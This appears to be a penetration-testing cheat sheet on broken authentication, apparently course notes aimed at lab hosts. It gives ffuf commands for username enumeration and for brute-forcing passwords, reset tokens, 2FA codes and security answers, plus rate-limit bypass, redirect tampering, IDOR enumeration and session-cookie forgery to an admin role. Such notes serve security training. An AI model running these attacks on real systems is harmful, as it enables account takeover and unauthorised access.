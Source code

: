 # Broken Authentication

## Categories of Authentication

- Knowledge: passwords, PINs, Answer to Security Question
- Ownership: ID cards, TOTP, Authenticator App, Security Token
- Inherence: Biometric authentication

## Brute-Force Attacks

- User Enumeration 
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
- Brute-Forcing Passwords
```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password"
```
- Brute-Forcing Password Reset Tokens (example based on weak 4 digit reset token sent via email)
```bash
seq -w 0 9999 > tokens.txt # -w pads numbers with prepending zeros
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
- Brute-Forcing 2FA Codes (example based on weak 4 digit TOTP token)
```bash
seq -w 0 9999 > tokens.txt
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

## Bypassing Brute-Force Protection

- **Rate Limit**: X-Forwarded-For HTTP Header can be randomised
- **CAPTCHAs**: Look for CAPTCHA solution in HTML code

## Password Attacks

- **Default Credentials**
  - [CIRT.net](https://cirt.net/passwords/)
  - SecLists Default Credentials (SecLists\Passwords\Default-Credentials\)
  - [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master)
- **Vulnerable Password Reset**
  - Guessable Security Questions (for example brute force [world cities](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv))
  ```bash
  cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt # all world cities
  cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt # just german cities
  ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
  ```
  - Username Injection in Password Reset Request (check post parameters in http request)

## Authentication Bypasses

- Accessing the protected page directly
  - go directly to hidden page /admin.ph 
  - catch the response in burp
  - change status code from 302 to 200
- Manipulating HTTP Parameters to access protected pages
  - Log in as regular user dirrcts to /admin.php?user_id=183
  - guess or bruteforce id parameter
```bash
seq 1 1000 > user_ids.txt
ffuf -w user_ids.txt -u http://STMIP:STMPO/admin.php?user_id=FUZZ -fr "Could not load admin data."
```

## Session Attacks

- Brute-Forcing cookies with insufficient entropy
  - Capture multiple session tokens and compare for similarities
  - Session cookie maybe long but most of it is fixed with only a small amount changing with each user
  - Session cookies could also increment and not be random thus easy to enumerate passed/future session tokens
  - Tokens maybe encoded values of the logon information
  - Try decoding session tokens to see if no truly random
```bash
echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d
echo -n 'user=htb-stdnt;role=admin' | base64 # base64 encode
echo -n 'user=htb-stdnt;role=admin' | xxd -p # hex encode
```
- **[Session Fixation](https://owasp.org/www-community/attacks/Session_fixation)**
  - Attacker obtains valid session identifier
  - Attacker coerces victim to use this session identifier (social engineering)
  - Victim authenticates to the vulnerable web application
  - Attacker knows the victim's session identifier and can hijack their account
- **[Improper Session Timeout](https://owasp.org/www-community/Session_Timeout)**
  - Sessions should expire after an appropriate time interval
  - Session validity duration depends on the web application